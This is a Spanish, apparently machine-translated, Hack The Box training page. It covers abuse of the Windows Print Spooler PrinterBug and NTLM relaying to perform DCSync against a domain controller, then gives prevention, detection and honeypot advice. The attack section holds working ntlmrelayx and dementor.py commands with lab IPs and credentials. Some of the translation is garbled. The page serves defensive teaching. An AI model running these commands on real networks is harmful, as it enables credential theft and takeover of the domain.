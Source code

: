# Print Spooler & NTLM Relaying

# **Descripción**

El[Bacher de impresión](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler)es un servicio antiguo habilitado de forma predeterminada, incluso con las últimas versiones de escritorio y servidores de Windows. El servicio se convirtió en un vector de ataque popular cuando en 2018,`Lee Christensen`encontró el`PrinterBug`. Las funciones[RpcremotefindFirstprinterChangenotificación](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83)y[RpcremoteFindFirstprinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)Se puede abusar para obligar a una máquina remota a realizar una conexión a cualquier otra máquina a la que pueda alcanzar. Además, el`reverse`La conexión llevará información de autenticación como un`TGT`. Por lo tanto, cualquier usuario de dominio puede coaccionar`RemoteServer$`Para autenticarse en cualquier máquina. La postura de Microsoft en el`PrinterBug`era que no se solucionará, ya que el problema es "de diseño".

El impacto de`PrinterBug`es que cualquier controlador de dominio que tenga el bote de impresión habilitado puede verse comprometido de una de las siguientes maneras:

1. Transmitir la conexión a otro DC y realizar DCSYNC (si`SMB Signing`está deshabilitado).
2. Obligar al controlador de dominio a conectarse a una máquina configurada para`Unconstrained Delegation` (`UD`) - Esto almacenará en caché el TGT en la memoria del servidor UD, que se puede capturar/exportar con herramientas como`Rubeus`y`Mimikatz`.
3. Transmitir la conexión a`Active Directory Certificate Services`Para obtener un certificado para el controlador de dominio. Los agentes de amenaza pueden usar el certificado a pedido para autenticar y fingir ser el controlador de dominio (por ejemplo, DCSYNC).
4. Transmitir la conexión a configurar`Resource-Based Kerberos Delegation`para la máquina de retransmisión. Luego podemos abusar de la delegación para autenticarse como cualquier administrador de esa máquina.

---

# **Ataque**

En este camino de ataque, transmitiremos la conexión a otro DC y realizaremos`DCSync`(es decir, la primera técnica de compromiso enumerada). Para que el ataque tenga éxito, la firma de SMB en los controladores de dominio debe ser apagado.

Para comenzar, configuraremos`NTLMRelayx`Para reenviar cualquier conexión a DC2 e intentar realizar el ataque DCSYNC:

```
[!bash!]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2supportImpacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

![](https://academy.hackthebox.com/storage/modules/176/A10/startntlmrelayx.png)

A continuación, necesitamos activar el`PrinterBug`Usando la caja Kali con`NTLMRelayx`escuchando. Para activar la conexión, usaremos[Demente](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)(Cuando se ejecuta desde una máquina sin dominio unida, se requieren credenciales de usuario autenticado, y en este caso, supusimos que previamente habíamos comprometido a Bob):

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!

```

![](https://academy.hackthebox.com/storage/modules/176/A10/dementor.png)

Ahora, volviendo a la sesión de la terminal con`NTLMRelayx`, veremos que DCSYNC fue exitoso:

![](https://academy.hackthebox.com/storage/modules/176/A10/hashes.png)

---

# **Prevención**

Impresión se debe deshabilitar en todos los servidores que no son servidores de impresión. Los controladores de dominio y otros servidores centrales nunca deben tener roles/funcionalidades adicionales que abran y amplíen la superficie de ataque hacia la infraestructura AD del núcleo.

Además, hay una opción para prevenir el abuso de la`PrinterBug`mientras mantiene el servicio en funcionamiento: al deshabilitar la clave de registro`RegisterSpoolerRemoteRpcEndPoint`, se bloquean cualquier solicitud remota entrante; Esto actúa como si el servicio estuviera deshabilitado para clientes remotos. Configurar la clave de registro en 1 lo habilita, mientras que 2 la deshabilita:

![](https://academy.hackthebox.com/storage/modules/176/A10/registry.png)

---

# **Detección**

Explotando el`PrinterBug`dejará rastros de conexiones de red hacia el controlador de dominio; Sin embargo, son demasiado genéricos para ser utilizados como mecanismo de detección.

En el caso de usar`NTLMRelayx`Para realizar DCSYNC, sin identificación de eventos`4662`se genera (como se menciona en la sección DCSYNC); Sin embargo, para obtener los hash como DC1 de DC2, habrá un evento de inicio de sesión exitoso para DC1. Este evento se origina en la dirección IP de la máquina Kali, no del controlador de dominio, como podemos ver a continuación:

![](https://academy.hackthebox.com/storage/modules/176/A10/detectDCSync.png)

Un mecanismo de detección adecuado siempre correlaciona todos los intentos de inicio de los servidores de infraestructura central a sus respectivas direcciones IP (que deben ser estáticas y conocidas).

---

# **Mielero**

Es posible usar el`PrinterBug`como medio para alertar sobre el comportamiento sospechoso en el medio ambiente. En este escenario, bloquearíamos las conexiones salientes de nuestros servidores a puertos`139`y`445`; El software o los firewalls físicos pueden lograr esto. Aunque el abuso puede desencadenar el error, las reglas del firewall no permitirán la conexión inversa para llegar al agente de amenazas. Sin embargo, esas conexiones bloqueadas actuarán como signos de compromiso para el equipo azul. Antes de hacer cumplir cualquier cosa relacionada con esta exploit, debemos asegurarnos de tener suficientes registros y conocimiento de nuestro entorno para garantizar que se permitan conexiones legítimas (por ejemplo, debemos mantener los puertos mencionados abiertos entre DC, para que puedan replicar los datos).

Si bien esto puede parecer adecuado para un honeypot para engañar a los adversarios, debemos tener cuidado antes de implementarlo, como actualmente, el error requiere que la máquina se conecte a nosotros, pero si se descubre un nuevo error desconocido, lo que permite algún tipo de control remoto Ejecución de código sin la conexión inversa, entonces esto nos hará contraproductos. Por lo tanto, solo debemos considerar esta opción si somos una organización extremadamente madura y podemos actuar de inmediato en alertas y deshabilitar el servicio en todos los dispositivos si se descubre un nuevo error.